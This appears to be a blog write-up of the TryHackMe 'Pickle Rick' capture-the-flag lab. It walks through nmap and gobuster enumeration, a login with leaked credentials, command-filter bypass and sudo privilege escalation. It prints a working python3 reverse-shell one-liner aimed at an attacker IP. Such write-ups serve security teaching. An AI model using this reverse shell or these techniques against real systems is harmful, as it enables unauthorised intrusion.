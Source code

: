 ```yaml
---
layout: single
title:  "Pickle Rick Writeup - TryHackMe"
date:   2021-04-04 04:00:00 -0400
classes: wide
categories: THM
tags:
 - Privesc
---
```


This time i'll be working with the room [Pickle Rick](https://www.tryhackme.com/room/picklerick) from **TryHackMe**. This is a free lab with an easy difficulty.

## Lab info

![Lab Info](/images/THM/PickleRick/00-room-info.png){: .align-center}

## Enumeration

All ports nmap scan: ```nmap -p- -sS --min-rate 5000 -n -v 10.10.123.34 -oG allPorts.gnmap```

```bash
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.77 seconds
```

Basic enumeration scripts for ports 22,80: ```nmap -sC -sV -p22,80 10.10.123.34 -oN ports.nmap```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-04 13:30 -04
Nmap scan report for 10.10.123.34
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:c4:23:86:8e:70:33:66:18:f0:84:e8:6b:93:eb:bc (RSA)
|   256 a9:25:85:0b:08:8f:30:36:36:9a:b2:3b:d6:bf:d1:07 (ECDSA)
|_  256 38:d9:59:3b:50:cd:b6:de:8d:60:06:bf:46:1e:d5:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Finally, let's run an http-enum script on port 80: ```nmap --script http-enum -p80 10.10.123.34 -oN webscan.nmap```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-04 13:31 -04
Nmap scan report for 10.10.123.34
Host is up (0.34s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum:
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file

Nmap done: 1 IP address (1 host up) scanned in 31.34 seconds
```

So, after all those scans we get:

* Webpage: http://10.10.123.34

![Web Page](/images/THM/PickleRick/15-web-page.png){: .align-center}

As a good habit, you may want to check the source code of the webpages.

![Web Page Source Code](/images/THM/PickleRick/21-username.png){: .align-center}

And just like that we get the username ```R1******```

---

* Login: http://10.10.123.34/login.php

![Login Page](/images/THM/PickleRick/20-login-page.png){: .align-center}

---

* Robots file: http://10.10.123.34/robots.txt

![robots](/images/THM/PickleRick/24-robots-web.png){: .align-center}

In robots.txt we see ```Wub********```, let's save it in case it's useful later. 

Just to be sure, now we will launch a gobuster directory scan in case nmap missed something. 

Gobuster scan: ```gobuster dir -u http://10.10.123.34 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 300 --no-error```

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.123.34
[+] Method:                  GET
[+] Threads:                 300
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/04 13:55:58 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.10.123.34/assets/]
/server-status        (Status: 403) [Size: 300]

===============================================================
2021/04/04 14:04:25 Finished
===============================================================
```

Gobuster will find ```/assets``` directory that does not contain anything interesting.


## Gainning access

Moving on to the login page, using the info gathered before, we could try to use ```R1*****``` as username and ```Wub********``` as password... and it actually works.

The next we will see is a Command Panel and an input to run commands.

![Command Panel](/images/THM/PickleRick/26-command-panel.png){: .align-center}

If we try to navigate to another tab, we get the message: *Only the **REAL** rick can view this page...*

![Denied](/images/THM/PickleRick/33-denied.png){: .align-center}

Back at the Command Panel, let's assume we can run system commands and try a few.

![whoami](/images/THM/PickleRick/27-command-whoami.png){: .align-center}

![ls](/images/THM/PickleRick/30-command-panel-ls.png){: .align-center}

Executing ```cat Sup3rS3cretPickl3Ingred.txt```, the following message will show up. 

![cat](/images/THM/PickleRick/28-command-cat.png){: .align-center}

Now we know some commands are being blocked, but ```less``` is not one of them. 

![First Flag](/images/THM/PickleRick/29-first-ing.png){: .align-center}

**First Ingredient:** ```mr. m*******```

## Getting a shell

For the reverse shell, first we want to make sure the command we are going to use exist in the system and is allowed. Trying python gets no results but python3 will do the trick. 

Using this [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) as a reference, we craft the following command:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.0.103",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Now, we open a listener on port 443 with netcat and run our command to get the shell.

![Shell](/images/THM/PickleRick/34-first-shell.png){: .align-center}

## Privilege Escalation

This is the easiest part, the first thing we could do is check the ```www-data``` user privileges with ```sudo -l```. We will find out that we can execute commands as root without providing password.

Running ```sudo su``` will make us root user.

![Privesc](/images/THM/PickleRick/37-privesc.png){: .align-center}

The last thing would be locating the other two ingredients. If we check the  ```/home``` path we will see rick directory inside along with the second ingredient.

![Second Flag](/images/THM/PickleRick/35-second-ing.png){: .align-center}

**Second Ingredient:** ```1 je*******```

And the last ingredient could be found in the home directory for root or using ```find```.

```bash
find / -type f -name "*.txt" | grep -v "usr"
```
![Third Flag](/images/THM/PickleRick/40-third-ing.png){: .align-center}

**Third Ingredient:** ```fle*******```

And that's all for this lab.